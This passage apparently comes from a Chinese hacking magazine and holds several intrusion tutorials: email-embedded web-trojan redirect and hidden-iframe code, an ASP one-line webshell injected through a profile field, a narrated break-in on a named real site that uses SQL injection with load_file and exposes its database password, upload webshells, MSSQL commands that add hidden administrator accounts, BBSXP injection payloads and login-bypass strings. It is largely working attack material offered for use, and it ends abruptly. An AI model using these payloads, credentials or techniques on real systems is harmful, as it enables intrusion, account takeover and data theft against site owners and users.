
抽支烟，休息一会儿。下面当然是想要得到 ROOT 了。直接去 `http://www.k-otik.com/exploits/` 找到了本地 `ptrace/kmod` 溢出，上传后编译执行，最终拿到 root 权限。

入侵后作者提到又装了一个 Bind 后门，并尝试下载 Shadow 口令文件破解；后续内网渗透不再展开。

> **Ptrace/kmod 漏洞是什么？**
>
> 为方便应用软件开发与调试，UNIX/Linux 提供了 `ptrace()` 对运行进程进行跟踪和控制。该机制在特定条件下可能被利用：子进程在权限切换前可被 `ptrace()` 挂接并注入代码，进而导致以 root 权限执行。

文中给出了 Exploit 地址并建议读者自行尝试，强调 Linux 本地提权利用较多，可多做测试。

本文结尾讨论了 CGI 漏洞利用经验与学习心得，并邀请读者在论坛交流扫描与渗透收获。

| 项目 | 内容 |
|---|---|
| 适合读者 | HTML语法 |
| 前置知识 | PHP基本阅读能力 |
| 难度等级 | 中 |


## 暴风雨的先驱——邮件网页木马

大家肯定对网页木马已经很熟悉了，但对邮件网页木马未必了解。文章介绍其思路与实现方法，并强调其危害在于可将被动攻击转为主动投递。

邮件网页木马可通过社会工程学包装邮件标题和内容，诱导目标点击，从而触发攻击。相比普通网页挂马，其传播与命中方式更隐蔽、更主动。

文/图 xyzreg

传播速率比普通的网页木马以及电子书木马不知高多少倍！而且它最大的优点是：目标可指定性，它可以攻击你想要的指定用户，这一点是普通方法无法比拟的。

邮件网页木马其实就是在发 E-mail 以 HTML 方式内嵌网页木马，使邮件本身成为一个网页木马。技术本身并不难，但就是怕不往这方面想。还是赶快转入正题吧，否则“坏柿子”扔过来啦。

聪明的读者此时可能会说：“邮件网页木马岂不是很简单？只要在发邮件时选择以 HTML 方式发送，再将网页木马的源代码写入不就可以了吗？”事实上这只是一种空想，真实情况当然没这么简单。因为国内绝大部分信箱都对一些关键代码进行了屏蔽过滤，因而本文的重点将是研究怎样突破重围，在电子邮件中引入网页木马，达到我们的目的。

一般的网页木马都要用到 JavaScript，但绝大部分邮件系统都对 `<script>` 标记作了屏蔽，我们只能另辟新法。我们可以不直接将网页木马代码写入邮件中，而写入转向代码，使用户浏览此邮件时转向我们放在自己网站上的网页木马。当然难点在于转向代码的写法，写得不巧妙就会被邮件系统屏蔽。

因为绝大部分邮件系统都对 `<script>` 标记作了屏蔽，所以为了转向代码有效，均不使用 JS 和 VBS 标记。具体情况如下：

- 1. Window.Location 法，代码如下：

```html
<body onload="window.location='http://xxxxx'">
</body>
```

- 2. 框架法，代码如下：

```html
<frameset cols="100%">
  <frame src="http://xxxxx" scrolling="auto">
</frameset>
```

其中 Scrolling 参数值得注意，合理使用可加强隐蔽性；Cols 参数可根据自己的实际情况作更改。

- 3. META 标志法，代码如下：

```html
<META HTTP-EQUIV="Refresh" CONTENT="0;URL=http://xxxxx">
```

其中 CONTENT 后面的阿拉伯数字代表过几秒钟转入目标网页。

- 4. Iframe 内嵌法

```html
<iframe src="http://xxxxx" width="0" height="0" frameborder="0">
```

其中 `width="0"`、`height="0"` 是引入网页的大小尺寸，可按实际需要调整。Frameborder 参数很重要，恰当使用可增强邮件网页木马的隐蔽性。

（右栏）通过设置 `frameborder=1` 或 `frameborder=0`，可分别呈现“像普通邮件内容区域”与“更不易察觉”的不同效果。大家可根据情况选择参数，以获得更好的伪装引入效果。


上述代码笔者已对国内多种电子信箱测试，后几种方法通过率较高。只要掌握网页木马制作并结合邮件引入技术，就可实现较高隐蔽性的转向引入。

后记：笔者还测试了 Hotmail、Yahoo 等国外邮箱，发现其过滤更严格。文中部分方法在国外邮箱中会被过滤；但国内多数邮箱仍可能存在可利用空间。

| 适合读者 | 脚本爱好者 |
|---|---|
| 前置知识 | ASP基本语法 |
| 难度等级 | 中 |

**脚本小子：** 互联网这块没有硝烟的战场上每天都有很多站点被攻陷，许多站点管理员的安全意识在一次又一次被攻击之后都逐渐有所提高。其中很突出的一方面就是在 ASP+Access 程序的防护上……下面我们举个例子来说明这一切。

## 来自于黑防攻防实验室的收获——


## 防下载限制得到 WebShell 的方法

第四轮《黑客防线》攻防实验室开展几个月了，通过几个群和黑防论坛里的朋友们的讨论，出现了一个新的技术：突破防下载数据库并构造 WebShell……于是找个站点练习一下这种技术。

随便找一个站点 `http://www.51**.cn/ds/index.asp`。这是个盗帅的下载系统。测试数据库路径与后缀后，请求 `http://www.51**.cn/ds/db/daidalos.asp` 出现如图1所示界面，可证明数据库路径猜对了。


于是我想，如果能在数据库里写入数据，并把不能解释的语句注释掉，那么在浏览器中执行该 ASP 页面，不就能执行我们构造的 ASP 代码了吗？一个 WebShell 就这样诞生了。

如果要写入数据，没有其他注入方式，只能利用“注册用户”功能。注册过程中，“账号、密码、邮箱、问题、答案”等选项均限制长度，无法构造足够长代码。后来发现“修改资料”中的“头像”字段未限制长度，于是在“头像”栏中写入代码（如图2所示）。

```asp
<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT>
eval(Request.form("kyo327"),"unsafe");
</SCRIPT><%On Error Resume Next;//
```

这句代码大家都熟悉，是冰狐的微型木马，只一句而已。其中 `<%On Error Resume Next;//` 用来容错。


这样我们提交后，再次请求 `http://www.51**.cn/ds/db/daidalos.asp`，没有出现错误提示，说明 ASP 代码被执行了。马上传出冰狐客户端连接（如图3所示）。


看到了吗？成功执行了！下面还想怎么做，大家可以自己动手。

也许大家已经知道了进入后台、再在数据库里写东西改写后缀名的方法，但这往往依赖 SQL 注入或已拿到管理员账号。若密码是 MD5，爆破成本很高。本文方法利用前台注册/改资料，只要知道数据库路径即可，很多程序即使无上传功能，也可能通过向数据库写代码拿到 WebShell。

这次测试在实验室和多位朋友帮助下完成。实践说明：管理员一些“安全设置”若处理不当，反而可能给入侵者带来机会。攻防对立，思路同样关键。

| 项目 | 内容 |
|---|---|
| 适合读者 | 入侵爱好者/脚本爱好者 |
| 前置知识 | MySQL基本语法 |
| 难度等级 | 中 |


## 入侵闪客帝国

文/图 关贵兵团.Safer

### 前言

今天没什么事在几个论坛上闲逛，TUPUNCO 发来消息说：“闪客帝国主站有个地方好像有问题，你看看吧。”于是我就直奔 http://www.flashempire.com，测试后发现存在漏洞，如果利用成功，将会直接威胁到主机的安全。

### 巧妙获取 MySQL 连接密码

扫描一下 flashempire.com 主机，发现一些常用端口。PHP 的页面系统、MySQL 数据库也支持远程连接。整理了一下入侵思路，还是从我比较熟悉的脚本注入开始吧。

首先我们要得到 Web 目录在服务器上的物理路径，怎么办呢？就让它出错自己爆出来吧！就以 `http://www.flashempire.com/theater/top10.php?id=315` 为突破口，构造语句是小意思了，提交如下 URL：

```
http://www.flashempire.com/theater/top10.php?id=...
http://www.flashempire.com/theater/top10.php?id=...
```

> 当提交一个错误的 Query 时，如果服务器上的 `display_errors=on`，程序就会暴露 Web 目录的绝对路径；只要知道路径，对于一个可以注入的 PHP 程序来说，整个服务器的安全将受到严重威胁。

返回因提交数据出错而爆出的路径，如图1所示。

```
... is not a valid MySQL result resource in /home/flash/www/theater/top10.php
```

图1

由于自己对闪客帝国的网站系统结构一无所知，就将我们的目标定位在 MySQL 数据库上吧。那当前首要的任务就是拿到 Config.php 中的数据库账号和密码。由于闪客帝国的主站系统是自己开发的，我们无从得知其文件列表与数据结构，这里我考虑直接读取文件，就是使用 `load_file()`。

> `load_file()` 函数的作用是读入文件，并将文件内容作为一个字符串返回。常见限制：
> 1. 欲读取文件必须在服务器上。  
> 2. 必须指定文件完整路径名。  
> 3. 必须有权限读取且文件必须完全可读。  
> 4. 欲读取文件必须小于 `max_allowed_packet`。  
> 5. 若文件不存在或因其他原因不能读取，查询返回 `NULL`。

首先提交如下 Query：

```
http://www.flashempire.com/theater/top10.php?id=3151%20and%201=2%20union%20select%2050,8,7,6,5,4,3,load_file('/home/flash/www/theater/theater.php'),1
```

返回出错信息，估计是 `magic_quotes_gpc=on` 过滤掉了 `'`。换种方式再来一次，继续提交 `char()` 函数，再次提交使用 `char()` 函数的 Query：

```
char(47,104,111,109,101,47,102,108,97,115,104,47,119,119,119,47,116,104,101,97,116,101,114,47,116,104,101,97,116,101,114,46,112,104,112)
```

其实就是 `/home/flash/www/theater/theater.php` 的 ASCII 代码。

```
http://www.flashempire.com/theater/top10.php?id=3151%20and%201=2%20union%20select%2050,8,7,6,5,4,3,load_file(char(...)),1
```

> 小技巧：`char()` 函数将提交的字符串转换为 10 进制；也可使用 SQL Encoder.exe 转换为 10 进制。

成功读出 Theater.php 文件代码，返回成功读出 theater.php 文件的代码如图2所示。

```php
$channel = 3;
include "../includ/dbconnect.php";
...
$result=mysql_query("select id,name,url,x,y,k,author,intro,mes from ... where id='$id'");
...
```

图2

根据经验以及对文件命名情况的猜测，`/include/dbconnect.php` 应该就是我们的目标——存放数据库连接信息的文件。再提交新的 Query：

```
http://www.flashempire.com/theater/top10.php?id=3151%20and%201=2%20union%20select%2050,8,7,6,5,4,3,load_file(char(...dbconnect.php...)),1
```

`119,47,105,110,99,108,117,100,101,47,100,98,99,111,110,110,101,99,116,46,112,104,112),1`

成功读出 `/include/dbconnect.php` 文件代码，返回 `/include/dbconnect.php` 文件的代码如下：

```php
$conn = mysql_connect("localhost","root","flash945") or die("数据库连接失败!");
```

哈哈！这么简单就成功拿到了 MySQL 数据库账号、密码，再配合前面扫描得到的 MySQL 允许远程连接，现在我们可以用 PhpMyAdmin 登录查看数据库情况了。

打开本机的 `PhpMyAdmin/config.inc.php`，作如下修改：

```php
$cfg['Servers'][$i]['host'] = 'localhost';
// localhost 修改为 61.*.*.126
$cfg['Servers'][$i]['user'] = 'root';
$cfg['Servers'][$i]['password'] = '';
// MySQL 登录密码，修改为 flash945
```

保存后浏览我们本机的 PhpMyAdmin 即可管理远端 MySQL 数据库了（如图3所示）。

随后在数据库中收集信息，尝试管理级别账户密码与提权思路，记录了入侵过程中的一些失败与调整。

### 曲折之路获取 WebShell

先分析昨天拿到的数据库，下面有几个不同思路可以考虑。

- MySQL：MySQL 数据库信息
- MySQL00：估计是 MySQL 备份信息
- fe4：主站数据库信息
- Dhht：论坛信息
- Blog：管理员日记信息

思路1：利用 MySQL 导出 PHPShell。通过 PhpMyAdmin 在数据表中插入 PHPShell 内容，再用 `into outfile` 导出到可访问目录形成后门。

插入 PHPShell，代码是 Angel 的小型上传型后门。

```php
<?php
$msg = copy($_FILES[MyFile][tmp_name], $_FILES[MyFile][name]) ? "上传成功" : "上传失败";
echo $msg;
?>
<form ENCTYPE="multipart/form-data" ACTION="<?=$_SERVER['SCRIPT_NAME']?>" METHOD="POST">
<input NAME="MyFile" TYPE="file">
<input VALUE="提交" TYPE="submit">
</form>
```

有了 PHPShell 代码后，开始通过 `into outfile`。先确认目标目录可写，并定位到上传区域对应目录。

`http://www.flashempire.com/theater/top10.php?...load=file(char(...))`

`$path = '/home/flash/www/download/fla2/';`

`http://www.flashempire.com/theater/top10.php?...union select ... from fe_faq where id=16`

返回正常，如图4所示。

开始将 `fe_faq` 数据库中的内容导出生成 PHPShell。

`http://www.flashempire.com/theater/top10.php?...into outfile '/home/flash/www/download/fla2/safer.php'`

多次导出失败，继续排查原因并尝试其他办法。

> 导出不成功可能是因为 `into outfile` 需要引号，而 `magic_quotes_gpc=ON` 过滤掉了提交的引号。

### 思路2

由论坛入手上传 PHPShell，浏览“dhht - setting”表，得到论坛的浏览地址。然后注册一个账号“safer/safer”，再在 PhpMyAdmin 中选择“dhht - user”数据库并执行 SQL，将账号的 Usergroupid 修改为 6，从而成为论坛管理员。

`http://61.156.**.126/dhht/?`

登录后台后在附件扩展名中添加 PHP 并尝试上传后门，结果失败。查询发现 vBB 2.3.4 附件数据在数据库中，PHP 后门不能直接执行（如图5所示）。

陷入僵局后继续排查，发现数据库中并非目标站点论坛数据。经 ping 后确认 flashempire.com 与 flashempire.net 为两台服务器。

```
Flashempire.com —— 202.115.**.17
Flashempire.net —— 202.115.**.49
```

使用 MySQL 账号连接 flashempire.net（202.115.**.49）后继续尝试上传 PHP 后门，仍然失败。

| 字段 | 内容 |
|---|---|
| 适合读者 | 脚本攻击爱好者 |
| 前置知识 | SQL 基本存储过程 |
| 难度等级 | 中级 |

思路混乱中与 Angel 聊天并查看管理员 Blog 表，在 61.156.**.125-allanblog 中意外发现可上传类型配置。

`AllowedTypes: jpg,jpeg,gif,mpg,mpeg,avi,mov,mp3,swf,png`

Blog 允许上传影音文件，因此目录可写。随后访问 allanblog-nucleus_member，管理员密码为 MD5。下载同版本 Blog 程序本地安装后，得到默认管理账号密码“safer/111”。

```
698d51a19d8a121ce581499d7b701668 : safer
5f4dcc3b5aa765d61d8327deb882cf99 : allan
```

用 PhpMyAdmin 替换密码后顺利登录并上传 PHPShell，上传成功（如图6）。

随后在服务器中继续查看目录与配置，下载 `/etc/passwd` 进行分析。作者总结在 Linux 下未继续深入，并建议通知站点管理员修补漏洞。

### 绕过 xplog70.dll

深夜好友“如影随行”发来消息：一台配置较高的 3389 肉鸡异常，之前通过网页注入并借助 xp_cmdshell 加用户，但后来账号被清理，后门失效，xp_cmdshell 也无法执行。

我答应协助排查。由于数据库是 SA 权限连接，首先考虑利用命令添加数据库登录。

```sql
exec master.dbo.sp_addlogin 'renwoxin'
```

目标是添加数据库用户“renwoxin”，然后继续进行权限与后续操作。

## 脚本攻击（SCRIPT ATTACK）

加入“Sysadmin”组。

```sql
exec master.dbo.sp_addsrvrolemember 'renwoxin', 'sysadmin'
```

然后就可以用 SQL 查询分析器进行后续操作，尝试恢复并调用 `xp_cmdshell`。

```sql
sp_addextendedproc 'xp_cmdshell', @dllname='xplog70.dll'
```

添加 `xp_cmdshell` 扩展过程后，提示数据库中已存在该对象。为确认是否被删除，继续查询系统对象表。

```sql
select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell'
```

返回 1，说明对象仍在，问题更可能出在 `xplog70.dll` 文件异常（被改名或删除）。随后作者尝试用 ASP 木马（GetWebShell）写入并访问，但仍报“找不到文件”。

```sql
Declare @o int, @f int, @t int, @ret int, @a int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'createtextfile', @f out, 'c:\docume~1\alluse~1\「开始」菜单\程序\启动\a.vbs', 1
exec @ret = sp_oamethod @f, 'writeline', NULL, 'set wshshell=createobject("wscript.shell")'
exec @ret = sp_oamethod @f, 'writeline', NULL, 'a=wshshell.run ("cmd.exe /c net user user1 123 /add",0)'
exec @ret = sp_oamethod @f, 'writeline', NULL, 'b=wshshell.run ("cmd.exe /c net localgroup administrators user1 /add",0)'
```

上述方法会在启动项写入 `a.vbs`，待重启后添加用户。作者随后转而研究 `sp_OAMethod` 能否直接执行命令。

> **sp_OAMethod**：调用 OLE 对象的方法。语法示例：`sp_OAMethod objecttoken, methodname [, returnvalue OUTPUT] [, [@parametername=] parameter [OUTPUT]]...`。其中 `objecttoken` 通常来自 `sp_OACreate`，`methodname` 为对象方法名。

利用 `WScript.Shell` 的 `Run` 方法执行 `cmd.exe`，构造如下语句。

```sql
DECLARE @cmd INT
EXEC sp_oacreate 'wscript.shell', @cmd output
EXEC sp_oamethod @cmd, 'run', null, 'cmd.exe /c net user renwoxin$ test /add', 0, true
```

> 解释：先用 `sp_OACreate` 创建 `wscript.shell`，再用 `sp_oamethod` 调用 `Run`。`0` 表示窗口隐藏，`true` 表示等待程序执行结束并返回状态码。

执行后返回 0，说明成功，再将用户提升为管理员。

```sql
DECLARE @cmd INT
EXEC sp_oacreate 'wscript.shell', @cmd output
EXEC sp_oamethod @cmd, 'run', null, 'cmd.exe /c net localgroup administrators renwoxin$ /add', 0, true
```

再次返回 0，表示提权成功。文章最后说明 `RUN` 基本可执行各类 CMD 命令，并回顾了 `xplog70.dll` 丢失与 ASP 木马乱码等问题。

| 字段 | 内容 |
|---|---|
| 适合读者 | ASP 编写人员、入侵爱好者 |
| 前置知识 | ASP 代码阅读能力，基本 MSSQL 语法 |
| 难度等级 | 中 |

脚本小子：BBSXP 的最新版本是 5.0，之前很多版本都有明显的安全问题……再一次体现了安全上的进步归功于攻击者不懈努力的巧妙理论。

做得不怎么样，从纯软件的评估角度来说，BBSXP 基本上不合格……急需的大概是一个整体设计方面的人才，而不是一路修修补补。

## BBSXP 新漏洞

本文说的仅仅是部分注入方面的问题，跨站的漏洞太多，不说也罢……下面是 3 个 BBSXP 的漏洞分析及其利用。

> 脚本小子：这个漏洞很早开始就有研究……如果你以前搜集过或者通过跨站得到版主 MD5，伪造 Cookie 也可以利用这个漏洞。

### 一击必杀：LOG 函数

先说个不痛不痒的问题，Setup.asp 行 238 中的 LOG 函数。这是一个古老的漏洞，Request.ServerVariables("HTTP_USER_AGENT") 可以被伪造……显然就可以确认是一个漏洞了。

> 脚本小子：通过查看所有代码的查询，所有调用了这个 LOG 函数的文件一共有 10 个左右，不出意外的话这些地方都有可能触发这个漏洞。

这个漏洞对 MSSQL 版的 BBSXP 应该是一击必杀……最简单的是直接执行 xp_cmdshell，如果不行，试试更新 Clubconfig 表的 Adminpassword 项。

顺着 LOG 函数开始找，找到调用它的其他地方……这个漏洞的用处还是比较有限的。

### 挑战管理员：Recycle.asp

寻找 LOG 函数的时候，顺便还能看到另外一处问题，在 Recycle.asp 中 22 行……有问题的代码片段是这样的：

```asp
if "'"&Request("day")&"'" < "2" and membercode < 5 then error2("只有社区区长才有权限清空 1 天前的帖子")
conn.execute("delete from [forum] where deltopic=1 and lasttime<"&SqlNowString&"-"&Request("day")&"")
```

在文件中搜索一下可以发现 Request("day") 似乎没有经过任何判断就加到了 SQL 语句中……对于 MSSQL，加个冒号然后修改管理员密码还是直接调用存储过程就看个人爱好了。

> 事实上这里的判断依存于标准 C 函数中的 strcmp 性质，只要输入的 DAY 是 ASCII 码在 2 之后的任何字符串，都可以绕开“只有社区区长才能操作”的限制。

上面这两个漏洞似乎都要有一定的权限才能触发，利用起来有些困难……那么可以稍作变通继续利用。

## 脚本攻击（SCRIPT ATTACK）

（栏目编辑）脚本小子 scriptsboy@hacker.com.cn

### 一步登天：Usertop.asp

稍微花点功夫来看一下，因为出现的情况都很简单，这里就不多废话了。类似的问题也许还在其他一些文件中有出现，有时间有精力的话，你也不妨看看。

再说一个从很久以前就有的问题吧，就是在 Usertop.asp 中的那个 Order。这个漏洞在不同情况下可以有很多奇妙用法，按环境从简单到复杂介绍如下。先是关于漏洞描述，在 Usertop.asp 里有问题的代码大致如下。

```asp
Order=HTMLEncode(Request("Order"))
sql="select * from [user] Order by "&Order&" Desc"
```

很多朋友觉得上面的代码好像是过滤了吧？其实它是没用的。HTMLEncode 干了些什么事情呢？再看看 Setup.asp 中对它的定义。

```asp
fString=replace(fString,";","&#59;")
fString=replace(fString,"<","&lt;")
fString=replace(fString,">","&gt;")
fString=replace(fString,"\","&#92;")
fString=replace(fString,"--","&#45;&#45;")
fString=replace(fString,"'","&#39;")
fString=replace(fString,CHR(34),"&quot;")
fString=replace(fString,vbCrlf,"<br>")
```

> 脚本小子：上面函数规定了不能使用的字符（分号、大于小于号、反斜杠、两个减号、单双引号、回车等）。结合实际情况，过滤并不完善。

首先看最简单的 MSSQL 情况。对分号、回车的过滤只针对单条查询语句。VBScript 里的 vbCrlf 是按 Enter 打出的两个字符，真正回车换行（0x0a/0x0d）并不在过滤范围内，且可被 MSSQL 查询分析器正确识别。

> 脚本小子：VBScript 中的 vbCrlf 与真实回车换行（ASCII 0x0a、0x0d）不同。可在 MSSQL 查询分析器中用 Alt+小键盘输入 10 做实验，结果会形成两条语句。

要利用的话，Order 可赋值为任意列名（如 Username、Userpass）再加上 0x0a。注意最后的 desc 不能注释掉，还要补一个查询语句以保证不报错。空格若被过滤可用 Tab（0x09），注释符若被过滤可改闭合注释等方式绕过。

MSSQL 中 Union 不能跟在 Order by 子句后，而 Access 可跟在其后。利用 Access 时可更方便一次性取到较多字段（例如用户 MD5 相关信息）。Union 需要前后列数和类型一致，可把页面显示字段替换为敏感字段输出。

`http://127.0.0.1/bbsxp/usertop.asp?Order=id%20asc%20union%20select%2055,username,userpass,membercode,usermail,userpass,%20as%20userhome,question,answer,... from [user]%20order%20by%20id`

若注册用户不多，可在第一页看到部分用户；鼠标悬停可见经 MD5 加密的密码。若翻页不可用，可在 URL 中指定 Topage 值，或配合 Where 条件精确定位到某些用户。

> 脚本小子：在 Union 前，Usertop.asp 会先计算总页数，导致最后一页才能看到小部分密码显示用户。可考虑手动设定 Union 后查询条件进行改进。

（承接上文）在实际应用服务器与不同版本 BBSXP 中，返回字段可能不同，需调整查询语句以与前半段查询结构一致。

## SCRIPT ATTACK / 脚本攻击

失败的情况这里也说说，那就是注册的用户刚好够整数页，没有多余的空间给你显示我们 Union 后的东西了。解决方法好办，再注册一个就行了，这样就又翻了一页。

到这里再多说一句，这个能够利用的一个必要条件是 59 行的那句：

```asp
DoWhile Not RS.EOF and i<Pagesetup
```

这里有明显的逻辑错误。实际上在 BBSXP 中类似明显的逻辑错误是一抓一大把，编写代码的人本身对代码要完成的工作可能并不是特别清楚，所以导致了代码的模棱两可。尽管可以完成工作，但是代码本身是不正确的。关于这一点，有句话说得好：“普通人能编写出计算机能懂的代码，但只有聪明人才能编写出人能看懂的代码。”光计算机懂了并且执行结果似乎正确，对于合格的程序员来说，要求还是低了点。

得到后台管理密码的 MD5 很容易，把上面的稍微修改一下就可以，同样给个例子：

```text
http://127.0.0.1/bbsxp/insert.asp?... order=userpass asc ...
```

到这里，差不多这个漏洞的简单利用方法已经说完了。相信看到文章的这个地方，你已经有办法去利用它了。接下来，我们对这个漏洞的利用方法作进一步的分析，看看我们还可以用其他什么样更加另类的方法来得到 MD5。

我们先来看看如果将 Order 的值设定为 Left(userpass,1) 会出现什么问题。按照标准的查询 BNF 范式，Order by 后面只能跟列名，但是很奇怪的是，这种提交的方法并不会产生错误……对比一下每个用户的密码，真的是按照 userpass 的第一位字母逆序排序了。

如果觉得上面这仅仅是一个猜想而不那么确定的话，不妨试试看把 Order 的值设定为 Right(Left(userpass,2),1) 时候的情况。提交后，你可以发现也是按照密码的第二位逆序来排列的。这样我们就有了另外一个想法，直接利用这种方法来得到所有人的密码 MD5！

坦白说，我还没有用这种想法来完整地猜测一个用户密码，因为有了前面的方法，它就显得太复杂了，不过在此还是可以简要地解释一下。首先，我们收集一些密码及其与 MD5 的对应值。如果我们要破解第一位，则从中选出 MD5 密码第一位分别为 0~f 的 16 个样本，作为密码到论坛中注册新用户。为了更加精确的判定，不妨每个样本注册 2 个用户……

每个样本注册 2 个用户，一个用户名取 ASCII 码尽可能小（比如 0），另一个用户名取 ASCII 码尽可能大（比如汉字），都注册完毕以后（共 32 个），然后将 Order 的值设定为 Left(userpass,1),username 提交（这样它就会首先按照密码第一位排序，然后按照用户名来再次内排序）。由于我们事先知道用户名与密码第一位的对应关系，首位相同的两个用户之间（前面关于用户名的设定使得这个尽可能地包含了）的用户，密码首位我们就可以确定为和包含它们的（我们注册的）用户密码首位相同。同样的道理，继续注册……就可以通过这样的排序来确定第 N 位的值了。反复的结果是所有的用户都可以用这种方法把 MD5 密码给解出来。

另外一个直观一点的办法是这样的：比如我的密码 test 对应的 MD5 首位为 F（举例而已），我们注册了 a 和 z，密码都是 test，把 Order 的值设定为 Left(userpass,1),username，提交后查看排序的情况，在用户 a 和用户 z 之间的所有用户，可以确定 MD5 首位是 F。

这个方法比较慢，而且相当复杂，但却是不同于其他的，我们竟然可以利用合法查询来“解”出用户密码。“解”的关键在于收集大量的密码以及它们对应的 MD5，然后从中筛选出可用的样本来注册。这一步现在来说根本就不算什么困难，写一个简单的 ASP 然后给定一些种子不断地计算，并且往数据库里面写就可以了。

所以如果一旦限制了 Order 的提交长度（这是 BBSXP 常见的错误，但却是有效的手段），我们依然有办法把所有人的 MD5 密码得到。

最后，我们来考虑进一步攻击的方法……这里仅是粗略地谈了一下，很多细节并没有涉及。

| 项目 | 内容 |
|---|---|
| 适合读者 | 脚本爱好者、入侵爱好者 |
| 前需知识 | ASP 代码阅读能力、基本 SQL 语法 |
| 难度等级 | 中 |

## 轻松绕过登录表单


在脚本入侵的过程中，相信每位朋友都面对过表单登录，特别是管理员后台登录界面。所以，我今天特别把以前自己在这方面的心得和方法写出来，和大家一起分享。

> 表单是用于实现网页浏览者与服务器之间信息交互的一种页面元素。它由表单控件和一般内容组成。一般包含两部分：一部分是 HTML 源代码用于描述表单；另一部分是脚本或应用程序用于处理提交的信息（如 CGI 脚本）。表单可包含文本域、复选框、单选框、菜单、文件域、按钮等对象。


进入？对，这也将是我们今天分析的重点。先让大家来看看我的分析吧。通过在账号和密码中输入 `' or ''='` 等内容，可观察后台是否存在注入风险。

```asp
Dim Username, password, sql
username = request.form("username")
password = request.form("password")
sql = "select * from admin where username='"&username&"' and password='"&password&"'"
```

（直接把表单参数放到数据库中查询）如果返回不是 EOF、BOF 则登录成功，否则失败。因此在未过滤单引号时，构造条件可导致始终命中记录，从而绕过认证。

大体上来分，如果登录界面不需要输入验证码，我们入侵可以分为两类：一种是暴力破解账号；另一种是通过脚本漏洞入侵。暴力破解依赖字典与返回页面判断，成功率受账号密码复杂度影响；而脚本漏洞方式往往更直接。

从单引号着手，先看下图 1。如果没有过滤单引号，那么我们在账号和密码输入框中输入注入语句，多数情况下可以进入后台。这说明认证逻辑将用户输入直接拼接进 SQL 语句中，存在明显安全缺陷。

```asp
Dim Username, password, sql
username = request.form("username")
password = request.form("password")
sql = "select password from admin where username='"&username&"'"
rs.open sql, conn, 1, 1
if not (rs.eof or rs.bof) then
    if rs("password") = password then
        ' 登录成功
    end if
end if
end if
end if
```

看完了代码，你应该明白其中的思路了吧？脚本编写人员先在数据库中查找表单中提交的用户名，找到后再把数据库中的密码和表单中提交的密码相比较，如果表单中输入的密码和数据库中的密码相同，那么就登录成功。

面对这种情况，我们也是有办法的。想想表单参数中的账号参数是没有过滤单引号的，那么我们输入 `' or ''='` 会找到一条记录。脚本会取回找到的这条相应记录的密码，再和我们输入的密码进行比较，现在我们的关键就是不知道密码是多少了！

| username | password |
|---|---|
| Test | 123456 |
| admin | admin123 |
| ms | mszr |

上面是管理员表的记录，采用 `'or ''='` 取得的是第一条记录，如果我们在账号中输入 `',' or password='admin123' and ''='`，再在密码中输入 `admin123`，就可以成功进入后台……

上面我们分析了一大把，现在是时候让我们来消化消化了。多吃不消化可不是学习的好方法。在网上找个登录入口吧，随便找了一个，我在用户名和密码中先分别输入单引号，IE 返回如图 2 所示。

```text
Microsoft OLE DB Provider for SQL Server 错误 '80040e14'

字符串 '' 之前有未闭合的引号。

/login.asp, 行185
```

看到上面的提示，大家应该知道这是没有过滤单引号的情况下返回的错误信息，再进一步看看是哪个参数没有过滤。我现在只在账号中输入单引号，密码不输入，返回同样的结果，证明至少表单中的账号参数是没有过滤的……


> 一般说来账号没有过滤，密码也不会过滤，很多实际的情况下是先到数据库中去取回相应账号的密码，再进行比较。

证明密码字段是过滤的，要不然就是根本没有放到数据库中去查询。就按照第二种方法的思路，我们先拿一个密码吧。密码字段是多少？80% 都可以猜到的。先看网页表单源码，尝试 `password`、`userpassword` 等字段名……


看完本文，相信各位读者朋友在大体上也有了一定了解，找个站点来测试吧（请不要破坏站点），学习就是这样，只要你肯花功夫，自己就会不断地进步。


## MyBBSXP 绝对路径泄露漏洞

文／llikz

| 项目 | 内容 |
|---|---|
| 适合读者 | 脚本爱好者 |
| 前置知识 | ASP 代码阅读能力 |
| 难度等级 | 中 |

今天我把最新版本的 bbsxp v5.0 sp2 下载到了我的机器上，开启 IIS，打开浏览器，速度快，仅占用很少的内存，感觉比庞大的动网 BBS 系统好多了。呵呵，咱们还是慢慢研究一下它的安全性吧！

花了一个下午的时间，终于把源码大致读了一遍，感觉写得还不错。它对变量的过滤和动网系统是截然不同的，虽然 `Request.Cookies("username")` 在源码中随处可见，可它是在 Setup.asp 这个文件中对 Cookies("username") 进行验证的……我们来看这个文件中的一个函数的定义：

```asp
sub log(message)
  conn.Execute("insert into log (username,ip,windows,rematk) values ('"&Request.Cookies("username")&"','"&remoteaddr&"','"&Request.ServerVariables("HTTP_USER_AGENT")&"','"&message&"')")
end sub
```

显然没有对 ServerVariables("HTTP_USER_AGENT") 变量进行过滤……可惜高兴得太早了，这个函数调用竟出现在 Admin.asp 这个文件中。

打开 Compact.asp 这个文件我就觉得没有白费时间了，为了便于说明，我把文件的内容放到了这里：

```asp
<%
option explicit
if instr(Request.ServerVariables("http-referer"),"http://"&Request.ServerVariables("server_name")&"/")=0 then
  response.write "<script>alert('来源错误！');history.back()</script>"
  response.end
end if

Const JET_3X = 4
Function CompactDB(dbPath,bools97)
  Dim fso, Engine, strDBPath
  ...
End Function
%>
```

```asp
...
Engine.CompactDatabase "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & dbpath, _
"Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & strDBPath & "temp.mdb"
...
CompactDB = "<script>alert('压缩成功！');history.back()</script>"
Else
CompactDB = "<script>alert('找不到数据库！\n请检查数据库路径是否输入错误！');history.back()</script>"
End If
...
response.write(CompactDB(dbpath,bools97))
```

呵呵，大家看出什么来了吗？它并没有对身份进行验证，只是用 ServerVariables("http_referer") 来验证数据是从哪里提交的。

```asp
if instr(Request.ServerVariables("http-referer"),"http://"&Request.ServerVariables("server_name")&"/")=0 then
  response.write "<script>alert('来源错误！');history.back()</script>"
  response.end
end if
```

这段程序的意思就是说我们提交的变量 ServerVariables("http_referer") 如果不包含 `http://"&Request.ServerVariables("server_name")` 的话就不能继续执行下去。呵呵，我们可没有那么老实！

先用浏览器直接请求 `http://www.target.com/bbs/compact.asp`，同时用 WSockExpert 截取数据，这时浏览器警告“来源错误”，数据包如下：

```http
GET /compact.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/msword, ...
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
